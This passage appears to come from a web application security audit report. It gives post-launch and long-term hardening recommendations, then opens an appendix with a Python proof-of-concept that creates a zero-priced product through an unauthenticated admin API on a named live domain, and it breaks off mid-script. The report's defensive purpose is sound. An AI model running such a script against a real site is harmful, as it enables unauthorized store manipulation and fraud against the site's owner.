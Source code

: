 ### Short-Term (Post-Launch)

5. **Add security headers**
   - Content-Security-Policy
   - Strict-Transport-Security (HSTS)
   - X-Frame-Options: DENY
   - X-Content-Type-Options: nosniff

6. **Implement logging and monitoring**
   - Structured logging for security events
   - Failed login attempt tracking
   - Admin action audit trail
   - Anomaly detection

7. **Session management improvements**
   - Implement token refresh mechanism
   - Add session invalidation on role change
   - Reduce JWT expiration to 1 hour with refresh tokens

### Long-Term

8. **Security testing automation**
   - Dependency vulnerability scanning
   - SAST (Static Application Security Testing)
   - DAST (Dynamic Application Security Testing)
   - Regular penetration testing

9. **Compliance readiness**
   - GDPR data protection measures
   - PCI-DSS for payment data
   - Security incident response plan

---

## Appendix: Attack Simulation Scripts

### Complete Product Manipulation Script

```python
import requests

BASE_URL = "https://elucid.london"

def exploit_unauthenticated_admin():
    """
    Demonstrates complete takeover via unauthenticated admin APIs
    WARNING: For authorized testing only!
    """

    # Step 1: Create fake product
    print("[*] Creating malicious product...")
    create_response = requests.post(f"{BASE_URL}/api/admin/products", json={
        "name": "FREE DESIGNER HOODIE",
        "description": "Get it for free!",
        "price": 0,
        "sizes": ["S", "M", "L", "XL"],
        "colors": ["Black"],
        "variants": [
            {"size": "M", "color": "Black", "stock": 9999}
        ],
        "featured": True,
        "active": True
    })

    if create_response.status_code == 200:
```